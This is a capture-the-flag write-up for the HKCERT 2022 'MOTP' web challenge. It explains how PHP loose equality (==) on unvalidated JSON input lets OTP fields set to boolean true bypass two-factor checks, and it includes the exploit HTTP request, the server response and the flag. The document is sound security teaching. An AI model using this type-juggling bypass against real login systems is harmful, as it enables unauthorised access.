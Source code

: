 # MOTP **(火炭 OTP)**

> Tag: web, 150 points
>
> Web: <http://chal.hkcert22.pwnable.hk:28305/>
> 
> Attachment: [motp_1ea0c63eb5566bc147f61f1cdf594984.zip](https://file.hkcert22.pwnable.hk/motp_1ea0c63eb5566bc147f61f1cdf594984.zip)

## Challenge Description

The [challenge website](http://chal.hkcert22.pwnable.hk:28305) contains a form
which asks for the username, password and three one-time passwords (OTP).
Clicking "Sign In" sends a POST request to `/login.php`, which then responds with
which field is incorrect.

![The result of a form submission.](./description.png)

The goal is to enter the correct username and password, and bypass the OTP checks.

## Code Analysis

From the source code of `login.php`, we can see that:
1. the form data is loaded into `$_DATA` by `jsonhandler.php`,
1. the username and password are checked against `$USER_DB`,
1. the OTPs are verified with randomly generated keys using `Google2FA`, and
1. the flag is revealed if all checks pass.

It is obvious that the username and password are `admin`.

`Google2FA` implements the time-based OTP algorithm,
possibly capatible with Google's Autheticator app.

## Failed Attempt

Since the interval between key regeneration is 30 seconds and the OTP length is 6,
we thought it might be possible to brute-force all three OTP under the time constraint.

However, although the three OTP can be sequentially brute-forced, this was proven to be
difficult as 30 seconds is not enough to pull this off.

## Finding the Bug
### JSON Input

We then noticed that the form data `$_DATA` comes from `json_decode`,
and that there are no validation on the input JSON.

```php
$_DATA = json_decode(file_get_contents('php://input'), true);
```

Since PHP is a loosely typed language, we can send data with a type other than string.
We can therefore control the type of fields in `$_DATA`.

### Loosely Typed Equality

We further found that OTP is compared using a `==` operator:

```php
public static function verify_key($b32seed, $key, $window = 4, $useTimeStamp = true) {
    // ...
    for ($ts = $timeStamp - $window; $ts <= $timeStamp + $window; $ts++)
        if (self::oath_hotp($binarySeed, $ts) == $key)
            return true;

    return false;
}
```

which is, [indeed](https://www.php.net/manual/en/language.operators.comparison.php),
an "equal" operator similar to JavaScript.
Instead of the identical (`===`) operator, which returns `false` if the operand types differ,
the equal (`==`) operator first performs some type juggling.

In particular, if one of the operand is of `bool` type, `==` will convert the other to
`bool` type as well before comparison.
So if we set `$key` to `true`, `self::oath_hotp($binarySeed, $ts) == $key` will evaluate to
`true` as the left operand is always [truthy](https://www.php.net/manual/en/language.types.boolean.php#language.types.boolean.casting).

## Solution

We therefore set the three OTP to be `true` and send the following HTTP request:

```http
POST /login.php HTTP/1.1
Host: chal.hkcert22.pwnable.hk:28305
Content-Length: 109

{
    "username":"admin",
    "password":"admin",
    "otp1":true,
    "otp2":true,
    "otp3":true
}
```

The response lastly contains the flag:

```http
HTTP/1.1 200 OK
Date: Mon, 14 Nov 2022 10:34:10 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/8.1.12
Content-Length: 86
Content-Type: application/json

{"message":"Congrats, here is your flag: hkcert22{mistakes-off-the-page}","data":null}
```

## Flag
```
hkcert22{mistakes-off-the-page}
```
